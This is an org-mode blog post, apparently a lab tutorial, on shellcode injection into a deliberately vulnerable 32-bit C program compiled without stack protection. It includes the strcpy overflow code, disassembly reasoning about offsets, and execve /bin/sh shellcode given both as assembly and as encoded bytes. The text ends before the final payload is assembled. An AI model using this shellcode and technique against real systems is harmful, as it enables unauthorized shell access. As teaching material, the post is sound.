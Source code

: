 #+title: Shell Code Injection
#+LATEX_CLASS: article
#+LATEX_HEADER: \usepackage[a4paper]{geometry}
#+LATEX_HEADER: \usepackage{hyperref}
#+LATEX_HEADER: \geometry{verbose,tmargin=1in,bmargin=1in,lmargin=.6in,rmargin=.6in}
#+LATEX_HEADER: \usepackage{fancyhdr}
#+LATEX_HEADER: \setlength{\headheight}{15.0pt}
#+LATEX_HEADER: \pagestyle{fancy}


#+HUGO_BASE_DIR: ~/Project/blog/
#+HUGO_SECTION: post
* Prerequisites:
Refer to this
\href{https://chang2000.github.io/blog/2019/09/29/Exploit/}{*NOTE*}

* Scenario & Setting Up
Exploit a system to gain *shell access*. 

Our ~inj.c~:
#+begin_src c
#include <stdio.h>
#include <string.h>

void func(char *name)
{
    char buf[100];
    strcpy(buf, name);
    printf("Welcome %s\n", buf);
}

int main(int argc, char *argv[])
{
    func(argv[1]);
    return 0;
}
#+end_src

*Note:* we need to compile it with

#+begin_src bash
gcc inj.c -o inj -fno-stack-protector -z execstack -m32 -mpreferred-stack-boundary=2
#+end_src


* Shell Code Injection

** Analysis
Clearly, there is a vulnerability in ~inj.c~. The ~strcpy~ doesn't
specify a maximum length while copying, /which will cause
*segmentation fualt*/.

Let's disassemble the program:
#+begin_src bash
objdump -d -M intel inj
#+end_src

\href{https://pastebin.com/YihwwsvD}{Full output}

From ~<func>~, we see the 7-th line, 
~80483b1:   8d 45 9c                lea    eax,[ebp-0x64]~

we can say that buffer takes ~64~ bytes, which is $6*16 + 4 = 100$
bytes in decemal. The next 4 bytes is %ebp and the next will be our
*target*(/4 bytes/).

** Preparation of Shell Code
Our Shell Code:
#+begin_src nasm
xor     eax, eax    ;Clearing eax register
push    eax         ;Pushing NULL bytes
push    0x68732f2f  ;Pushing //sh
push    0x6e69622f  ;Pushing /bin
mov     ebx, esp    ;ebx now has address of /bin//sh
push    eax         ;Pushing NULL byte
mov     edx, esp    ;edx now has address of NULL byte
push    ebx         ;Pushing address of /bin//sh
mov     ecx, esp    ;ecx now has address of address
                    ;of /bin//sh byte
mov     al, 11      ;syscall number of execve is 11
int     0x80        ;Make the system call
#+end_src

Use ~nasm -f elf shellcode.asm~ to compile it.

Convert the shellcode to 
~\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80~

(/this should be same even for different envs/).


** Find a possible place to inject shellcode
In the example, ~buf~ is a perfect target because we can modify it as
we like. How do we know what address ~buf~ will be loaded in stack?

Use *GDB*: ~gdb -q inj~ to find the address of the buffer.
** Then follow the same rule to compose the injection
